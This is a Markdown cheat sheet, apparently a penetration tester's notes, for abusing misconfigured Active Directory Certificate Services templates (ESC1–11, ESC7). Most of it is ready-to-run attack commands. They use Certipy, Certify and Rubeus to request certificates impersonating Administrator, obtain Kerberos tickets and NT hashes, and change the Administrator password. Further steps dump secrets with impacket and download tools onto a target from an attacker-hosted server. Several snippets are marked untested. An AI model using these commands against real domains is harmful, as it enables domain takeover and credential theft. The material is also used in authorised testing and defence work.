 Using Certipy
---
#certipy #Certificate-Abuse

First sync time to DC (in case of time skew):
```shell
sudo rdate -n $TARGET_IP
```
OR
```shell
sudo ntpdate -s $TARGET_IP
```
and then restore
```shell
sudo ntpdate pool.ntp.org
```

SCAN AND EXPLOIT ESC 1 - 11 vulnerable certificate templates with certipy
---
#certipy #vulnerable-template #ad #active-directory #ad-template 

find vulnerable cert templates:
```shell
certipy find -u $USER -p $PASS -dc-ip $TARGET_IP -vulnerable -stdout -text
```
request enrollment of user in template:
```shell
certipy req -u $USER -p $PASS -ca $AD_CA_NAME -target $AD_DNS_NAME -template $TEMPLATE_FOUND_NAME -upn Administrator@$DOMAIN -dc-ip $TARGET_IP -debug
```
exploit to get admin hash:
```shell
certipy auth -pfx administrator.pfx -dc-ip $TARGET_IP
```

Exploiting misconfigured Certificate template with Rubeus and Certify:
---
#ad #ad-template #misconfiguration #rubeus #certify 

Download certify.exe and Rubeus:

```powershell
wget https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Certify.exe -O Certify.exe
```

```powershell
wget https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Rubeus.exe -O Rubeus.exe
```

Download on target:

```powershell
$URL="http://$LOCAL_IP/Certify.exe"
$PATH="c:\users\$USER\Desktop\certify.exe"
(New-Object System.Net.WebClient).DownloadFile($URL, $PATH)
```
and run the search
```powershell
./certify.exe find /vulnerable
./certify.exe request /ca:dc.$DOMAIN\$DOMAIN-DC-CA /template:UserAuthentication /altname:Administrator
```

After that download the cert using evil-winrm:

```powershell
download cert.pem
```

```shell
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

Upload cert.pfx back to target and perform TGT request:

```powershell
upload cert.pfx
./Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /ptt
```

or  get hash for evil-winrm etc.:

```powershell
./Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /getcredentials /show /nowrap
```

```sh
psexec.py -hashes $HASH:$HASH $USER@$TARGET_IIP
```

then

```powershell
./Rubeus.exe changepw /ticket:doIG2DCCBtSg…<snip>…== /new:Password123!! /targetuser:$DOMAIN\Administrator
```

OR use:

```link
https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py
```
instead of rubeus.exe for asktgt function

OR get hash with

```
getnthash.py (untested)
```

then copy ticket.kirbi to LOCAL machine and :

```shell
base64 -di ticket.kirbi >> ticket.bin
impacket-ticketConverter ticket.bin ticket.ccache
export KRB5CCNAME=/home/kali/$TARGET_NAME-box/files/ticket.ccache
```

```sh
pip install minikerberos --user
minikerberos-kirbi2ccache ticket.kirbi ticket.ccache
```

```sh
#fix time skew first!
impacket-secretsdump -k -no-pass g0.$DOMAIN
impacket-psexec administrator@$DOMAIN -hashes $HASHES
```

Check with:

```shell
echo $KRB5CCNAME
klist -f
sudo nano /etc/krb5.conf
```

```config
$DOMAIN = {
  kdc = dc.$DOMAIN
  admin_server = dc.$DOMAIN
}
```

then sync time with DC domain controller server

```shell
sudo ntpdate $DOMAIN_CONTROLLER
```

Finally login to server using kerberos auth:

```shell
impacket-psexec $TARGET_DOMAIN/Administrator@$DOMAIN_CONTROLLER -target-ip $TARGET_IP -dc-ip $TARGET_IP -no-pass -k
```

Powershell cmds:
---
untested, should be ok substitute for ADCSTemplate module:
```powershell
$Properties = @{}
$Properties.Add('mspki-certificate-name-flag',1)
$Properties.Add('pkiextendedkeyusage',@('1.3.6.1.4.1.311.20.2.2','1.3.6.1.5.5.7.3.2'))
$Properties.Add('msPKI-Certificate-Application-Policy',@('1.3.6.1.4.1.311.20.2.2','1.3.6.1.5.5.7.3.2'))
$Properties.Add('flags',0)
$Properties.Add('mspki-enrollment-flag',0)
$Properties.Add('mspki-private-key-flag',256) # 0x100
$Properties.'mspki-private-key-flag' += 16 # 0x10
$Properties.Add('pkidefaultkeyspec',1)
$Properties.Add('pKIDefaultCSPs','1,Microsoft RSA SChannel Cryptographic Provider')
Import-Module ActiveDirectory
Set-AdObject "CN=TemplateName,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=domain,DC=local" -Replace $Properties
```
Create a com object and set the subject alternative name
```powershell
$SAN = New-Object -ComObject X509Enrollment.CX509ExtensionAlternativeNames
$IANs = New-Object -ComObject X509Enrollment.CAlternativeNames
$IAN = New-Object -ComObject X509Enrollment.CAlternativeName
$IAN.InitializeFromString(0xB,"Administrator@$AD_DOMAIN") # UPN to use
$IANs.Add($IAN)
$SAN.InitializeEncode($IANs)
```
Create a request object to request the certificate based on a template
```powershell
$Request = New-Object -ComObject X509Enrollment.CX509Enrollment
$Request.InitializeFromTemplateName(0x1,"TemplateName") # Template to use
$Request.Request.X509Extensions.Add($SAN)
$Request.CertificateFriendlyName = "TemplateName" # Template to use
```
Enroll the certificate:
```powershell
$Request.Enroll()
```

Using CertReq(untested):
---
request.inf

```inf
[NewRequest]
Subject = "CN=ComputerName,CN=Computers,DC=domain,DC=local"
Exportable = TRUE
KeyLength = 2048
KeySpec = 1
KeyUsage = 0x60
MachineKeySet = FALSE
ProviderName = "Microsoft RSA SChannel Cryptographic Provider"
[RequestAttributes]
CertificateTemplate=Web
SAN="upn=Administrator@$ADDOMAIN"
[Extensions]
2.5.29.17 = "{text}"
_continue_ = "upn=Administrator@$ADDOMAIN"
[EnhancedKeyUsageExtension]
OID = 1.3.6.1.4.1.311.20.2.2
OID = 1.3.6.1.5.5.7.3.2
```

then

```powershell
certreq -q -new request.inf request.pem
certreq -q -submit request.pem cert.pem
certreq -q -accept cert.pem
```


ESC7
---
#esc7

```shell
certipy find -u $USER -p PASSWORD -dc-ip $TARGET_IP -vulnerable -stdout -text

#ESC7
certipy ca -ca $AD_CA -add-officer $USER -username $USER@$AD_DOMAIN -password $PASSWORD

certipy ca -ca $AD_CA -enable-template SubCA -username $USER@$AD_DOMAIN -password $PASSWORD

certipy req -username $USER@$AD_DOMAIN -password $PASSWORD -ca $AD_CA -target manager.htb -template SubCA -upn Administrator@$AD_DOMAIN -debug

certipy ca -ca $AD_CA -issue-request XX -username $USER@$AD_DOMAIN -password $PASSWORD

certipy req -username $USER@$AD_DOMAIN -password $PASSWORD -ca $AD_CA -target $AD_DOMAIN -retrieve XX

#fix clock skew then:
sudo ntpdate -s $AD_DOMAIN
certipy auth -pfx administrator.pfx -dc-ip $TARGET_IP
```